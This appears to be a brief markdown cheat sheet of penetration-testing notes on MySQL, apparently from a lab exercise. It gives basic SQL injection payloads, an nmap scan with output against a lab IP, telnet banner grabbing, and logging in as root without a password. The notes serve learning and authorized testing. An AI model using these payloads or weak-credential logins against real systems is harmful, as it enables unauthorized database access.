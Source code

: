 ## SQL Injection

https://portswigger.net/web-security/sql-injection/cheat-sheet
https://portswigger.net/web-security/sql-injection

If there is a input field in a web page, you can try to inject SQL commands to the database.

```sql
' OR 1=1 --
```

```sql
' UNION SELECT 1,2,3 --
```

## Detect MySQL Port and Version

```bash
nmap -p- <IP> -oA fullport --min-rate=10000
Starting Nmap 7.80 ( https://nmap.org ) at 2024-02-10 19:48 -03                      
Nmap scan report for 10.129.95.232 (10.129.95.232)                                   
Host is up (0.20s latency).                                                          
Not shown: 65534 closed ports                                                        
PORT     STATE SERVICE
3306/tcp open  mysql 
```

```bash
user in ~ λ telnet 10.129.95.232 3306                                            
Trying 10.129.95.232...                                                              
Connected to 10.129.95.232.
Escape character is '^]'.
5.5.5-10.3.27-MariaDB-0+deb10u13"f^#3toS-19h"n
```

## Connect with weak credentials

```bash
mysql -h <IP> -u root
mysql --host=localhost --user=myname --password=password mydb
```

## Commannds

```sql
SHOW DATABASES;
use <DATABASE>;
SHOW TABLES;
```